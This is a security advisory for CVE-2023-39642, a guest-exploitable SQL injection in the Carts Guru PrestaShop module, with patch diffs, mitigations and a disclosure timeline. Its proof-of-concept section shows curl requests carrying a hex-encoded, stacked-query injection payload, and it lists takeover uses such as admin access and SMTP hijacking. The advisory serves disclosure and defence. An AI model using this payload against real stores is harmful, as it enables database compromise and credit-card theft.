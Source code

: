 ```yaml
---
layout: post
title: "[CVE-2023-39642] Improper neutralization of SQL parameter in Carts Guru - Marketing automation multicanal module for PrestaShop"
categories: modules
author:
- TouchWeb.fr
- 202 Ecommerce
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,cartsguru"
severity: "critical (9.8)"
---
```


In the module "Marketing automation multicanal" (cartsguru) up to versions 2.4.2 from Carts Guru for PrestaShop, a guest can perform SQL injection in affected versions.


## Summary

* **CVE ID**: [CVE-2023-39642](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-39642)
* **Published at**: 2023-08-29
* **Platform**: PrestaShop
* **Product**: cartsguru
* **Impacted release**: <= 2.4.2 [considered to be "truly" fixed on 2.4.3 - see note below]
* **Product author**: Carts Guru
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: critical (9.8)

## Description

The method `CartsGuruCatalogModuleFrontController::display()` and the ajax script controllers14/catalog.php has sensitive SQL calls that can be executed with a trivial http call and exploited to forge a SQL injection.

Note : The author has deleted from its module the files that have been suffering from critical vulnerabilities for months, BUT did not set them to be "auto-deleted" during upgrades. Therefore, there are likely merchants out there with older versions who have updated their modules, thinking they are safe. However, there is nothing safe about this, since past upgrades did not auto-delete the implicated files. To ensure everyone has a "safe version", we decided to mark all versions up to 2.4.3 as impacted by this issue.

**WARNING** : This exploit is actively used to deploy webskimmer to massively steal credit cards. 

One of these exploits uses a PrestaShop front controller and most attackers can conceal the module controller's path during the exploit, so you will never know within your conventional frontend logs that it exploits this vulnerability. **You will only see "POST /" inside your conventional frontend logs.** Activating the AuditEngine of mod_security (or similar) is the only way to get data to confirm this exploit.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Obtain admin access
* Remove data from the associated PrestaShop
* Copy/paste data from sensitive tables to FRONT to expose tokens and unlock admins's ajax scripts
* Rewrite SMTP settings to hijack emails


## Proof of concept


```bash
curl -v 'https://preprod.XX/modules/cartsguru/controllers14/catalog.php?cartsguru_catalog_limit=1;select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--'
curl -v 'https://preprod.XX/?fc=module&module=cartsguru&controller=catalog&cartsguru_catalog_limit=1;select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--'
```

## Patch from 1.4.19

These files do not exist if you started working with Cartsguru beyond version 2.X BUT if you worked with them BEFORE 2.X versions - you should own it.

```diff
--- 1.4.19/controllers14/catalog.php
+++ XXXXXX/controllers14/catalog.php
if ($isMultiStoreSupported) {
    $id_shop = (int)Context::getContext()->shop->id;

    $sql .= ' JOIN ' . _DB_PREFIX_ . 'product_shop s ON p.id_product = s.id_product WHERE id_shop = ' . $id_shop;
    $sqlTotal .= ' JOIN ' . _DB_PREFIX_ . 'product_shop s ON p.id_product = s.id_product WHERE id_shop = ' . $id_shop;
}

// Set limit and offset
-$sql .= ' LIMIT ' . pSQL($limit) . ' OFFSET ' . pSQL($offset);
+$sql .= ' LIMIT ' . (int) $limit . ' OFFSET ' . (int) $offset;
```

```diff
--- 1.4.19/controllers/front/catalog.php
+++ XXXXXX/controllers/front/catalog.php
        if (CartsGuruHelper::isMultiStoreSupported()) {
            $id_shop = (int)Context::getContext()->shop->id;

            $sql .= ' WHERE id_shop = ' . $id_shop;
            $sqlTotal .= ' WHERE id_shop = ' . $id_shop;
        }
        // Set limit and offset
-       $sql .= ' LIMIT ' . pSQL($limit) . ' OFFSET ' . pSQL($offset);
+       $sql .= ' LIMIT ' . (int) $limit . ' OFFSET ' . (int) $offset;
```

## Other recommendations

* It’s recommended to upgrade to the latest version of the module **cartsguru**.
* Upgrade PrestaShop to the latest version to disable multiquery executions (separated by “;”) - be warned that this functionality **WILL NOT** protect your SHOP against injection SQL which uses the UNION clause to steal data.
* Change the default database prefix `ps_` with a new longer, arbitrary prefix. Nevertheless, be warned that this is useless against blackhats with DBA senior skills because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against this set of rules.

## Timeline

| Date | Action |
|--|--|
| 2022-10-11 | Issue discovered during a code review by [TouchWeb.fr](https://www.touchweb.fr) |
| 2022-10-12 | Author contacted and provided a patch |
| 2023-04-18 | Contact PrestaShop Addons security Team to confirm versions scope by author  |
| 2023-04-19 | Request a CVE ID |
| 2023-05-09 | PrestaShop Addons confirms versions scopes |
| 2023-05-24 | Author provide a patch which auto-delete files from old versions |
| 2023-08-25 | Received CVE ID |
| 2023-08-29 | Publish this security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/fr/remarketing-paniers-abandonnes/22077-carts-guru-marketing-automation-multicanal.html)
* [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2023-39642)
